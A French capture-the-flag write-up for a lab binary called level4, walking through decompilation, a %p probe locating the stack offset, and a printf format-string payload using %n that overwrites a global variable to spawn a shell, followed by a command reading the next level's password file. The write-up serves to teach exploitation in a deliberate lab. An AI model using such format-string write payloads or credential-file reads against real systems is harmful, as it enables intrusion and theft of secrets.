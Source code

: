 
# Level4

---
###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme trois fonctions V, P et Main ainsi qu'une variable globale m.

On voit par la suite que dans la fonction P il y a la fonction __printf__ qui est appelé.

 - on utilisera cette fonction pour overflow le programme.

On voit aussi que dans la fonction V on a la fonction __fgets__ qui est un fonction proteger, qui viens récupérer 512 charactères dans l'entrée standard.

Plus loin dans le progamme m est check pour savoir si elle contient la valeur 16930116.

Si c'est le cas alors le programme lance un terminal bash.

Vu que fgets recupèreque 512 charactères il nous faut trouver une solution pour ecrire les 16930116 charactères.

###### Étape 2: -- Récuperation d'information --

Depuis __GDB__, on cherche l'addresse de m qui ce trouve etre ==0x08049810==.

En lancant le programe comme suit:
```bash
python -c 'print "AAAA" + " %p " * 20' | ./level4
```

on observe ce resultat: 
> AAAA 0xb7ff26b0  0xbffff784  0xb7fd0ff4  (nil)  (nil)  0xbffff748  0x804848d  0xbffff540  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141 [...] 

on voit que la chaine "_AAAA_" -> hex: "_0x41414141_" ce situe a la 12ème position.
c'est donc a cette position que l'on vas ecrire payload pour remplir m.

###### Étape 3: -- Execution --

Avec la postion d'écriture du ___printf___ et l'addresse de ___m___, on crée un one-liner python pour executer un payload pour mettre la valeur 16930116 dans la variable ___m___.

pour écrire le 16930116 de char on utilise les fonctionnaliter des flags de ___printf___ comme par exemple le faite d'écrire des espaces avant une string ou un char.

Contruction du payload: 
> (python - c 'print "[m(address)]" + "%[16930116 - sizeof(m)]c" + "%12$n"'; cat -) | ./binary

Payload final :

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112c" "%12$n"' | ./level4
```

Dans le terminal on execute la commande suivante pour récupérer le password du level5:

```bash
cat /home/user/level5/.pass
```




